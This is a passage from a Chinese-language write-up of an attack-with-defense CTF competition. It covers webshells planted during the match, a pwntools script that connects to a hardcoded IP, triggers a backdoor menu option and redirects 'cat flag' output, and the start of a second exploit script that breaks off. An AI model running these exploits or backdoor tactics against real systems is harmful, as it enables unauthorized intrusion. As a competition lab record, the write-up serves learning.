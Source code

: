 
#### Web总结
比赛过程中我们被中了很多马，当时没有想到利用方式，现在发现可以通过骑马的方式对别人进行攻击，通过流量包发现自己是如何被攻击的。  
对于比赛现场的资料，应及时保存，以备后期的学习。


### Pwn1  

#### 明显的后门  

虽说是超级明显的后门，但是用它起码拿了有500分。。。  

![awd-hack0](..\..\..\..\pics\wp\awd-hack0.png)   
![awd-hack](..\..\..\..\pics\wp\awd-hack.png)   

按 “ 5 ” 进入后门。  

但是由于环境问题，进入/bin/sh 后不可以直接cat flag  

尝试使用   
>cat flag >&0  
/bin/sh  flag  

cat flag >&0 就是把输出的内容重定向到屏幕（貌似cat flag >&2也可以）  
成功，两个都可以。

攻击模块：
~~~python
def exp(port):
	p=remote("47.108.30.122",port)
	p.sendlineafter("choice:","5")
	# p.sendlineafter("have fun~\n","/bin/sh flag")
	p.sendlineafter("have fun~\n","cat flag >& 0")
	ans = p.recvuntil("}")
	res = re.findall("flag{(.*)}",ans)
	flag = ("flag{"+res[0]+"}")
	return flag
~~~  

#### 错误流泄露


### Pwn2  

#### 任意写  

附上ex师傅exp  
~~~python
from pwn import *
import os
import struct
import random
import time
import sys
import signal

salt = os.getenv('GDB_SALT') if (os.getenv('GDB_SALT')) else ''

def clear(signum=None, stack=None):
    print('Strip  all debugging information')
    os.system('rm -f /tmp/gdb_symbols{}* /tmp/gdb_pid{}* /tmp/gdb_script{}*'.replace('{}', salt))
    exit(0)

for sig in [signal.SIGINT, signal.SIGHUP, signal.SIGTERM]: 
    signal.signal(sig, clear)
    
# # Create a symbol file for GDB debugging
~~~